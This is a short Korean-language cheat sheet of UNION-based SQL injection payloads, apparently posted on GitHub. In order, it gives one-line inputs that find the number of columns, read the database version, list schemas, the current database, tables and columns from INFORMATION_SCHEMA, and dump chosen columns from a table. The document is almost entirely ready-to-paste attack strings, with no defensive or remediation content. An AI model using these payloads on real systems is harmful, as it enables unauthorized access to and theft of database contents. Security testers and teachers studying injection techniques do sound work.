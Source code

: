 # 컬럼 개수 알아내기

```
' UNION SELECT NULL-- -
' UNION SELECT NULL, NULL-- -
' UNION SELECT NULL, NULL, NULL-- -
' UNION SELECT NULL, NULL, NULL, NULL-- -
```

<br>

# DB 버전 및 이름 알아내기

```
' UNION SELECT NULL, NULL, @@version, NULL-- -
```

<br>

# DB 리스트 알아내기

```
' UNION SELECT NULL, schema_name, NULL, NULL FROM INFORMATION_SCHEMA.SCHEMATA-- -
```

<br>

# 현재 DB 알아내기

```
' UNION SELECT NULL, database(), NULL, NULL-- -
```

<br>

# 테이블 리스트 알아내기

```
' UNION SELECT NULL, TABLE_NAME, TABLE_SCHEMA, NULL FROM INFORMATION_SCHEMA.TABLES WHERE TABLE_SCHEMA = <database_name>-- -
```

설명: WHERE절에서 DB명의 자료형이 문자열인 경우 해당 DB명에는 따옴표 필요

<br>

# 컬럼 리스트 알아내기

```
' UNION SELECT NULL, COLUMN_NAME, TABLE_NAME, TABLE_SCHEMA FROM INFORMATION_SCHEMA.COLUMNS WHERE TABLE_NAME = <table_name>-- -
```

설명: WHERE절에서 테이블명의 자료형이 문자열인 경우 해당 테이블명에는 따옴표 필요

<br>

# 데이터 알아내기

```
' UNION SELECT NULL, <column_name1>, <column_name2>, NULL FROM <database_name>.<table_name>-- -
```
